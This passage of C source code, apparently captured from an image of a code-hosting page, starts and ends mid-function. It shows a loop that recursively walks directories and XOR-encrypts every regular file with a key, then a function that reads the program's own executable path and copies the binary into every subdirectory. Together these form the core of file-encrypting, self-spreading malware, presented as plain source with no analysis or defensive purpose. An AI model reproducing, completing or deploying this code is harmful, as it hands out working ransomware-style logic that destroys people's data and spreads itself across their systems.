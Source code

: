```C

    while ((entry = readdir(dir)) != NULL) {
        if (strcmp(entry->d_name, ".") == 0 || strcmp(entry->d_name, "..") == 0)
            continue;

        snprintf(fullpath, sizeof(fullpath), "%s/%s", path, entry->d_name);

        struct stat st;
        if (stat(fullpath, &st) == -1) continue;

        if (S_ISDIR(st.st_mode)) {
            encrypt(fullpath, key);
        } else if (S_ISREG(st.st_mode)) {
            xorfile(fullpath, key);
        }
    }
    closedir(dir);
}

void copy_self_recursive(const char *dirpath) {
    DIR *dir = opendir(dirpath);
    if (!dir) return;

    struct dirent *entry;
    char path[PATH_MAX];

    char exe_path[PATH_MAX];
    ssize_t len = readlink("/proc/self/exe", exe_path, sizeof(exe_path) - 1);
    if (len == -1) {
        perror("readlink");
        closedir(dir);
        return;
    }
    exe_path[len] = '\0';

    const char *filename = strrchr(exe_path, '/');
    filename = filename ? filename + 1 : exe_path;

    while ((entry = readdir(dir)) != NULL) {
        if (strcmp(entry->d_name, ".") == 0 || strcmp(entry->d_name, "..") == 0)
            continue;

        snprintf(path, sizeof(path), "%s/%s", dirpath, entry->d_name);

        struct stat st;
        if (stat(path, &st) == -1) continue;

        if (S_ISDIR(st.st_mode)) {
            copy_self_recursive(path);
        }
    }

    char target_path[PATH_MAX];
    snprintf(target_path, sizeof(target_path), "%s/%s", dirpath, filename);

    FILE *src = fopen(exe_path, "rb");
    FILE *dest = fopen(target_path, "wb");

    if (!src || !dest) {
        perror("copy error");
        if (src) fclose(src);
        if (dest) fclose(dest);
        closedir(dir);
```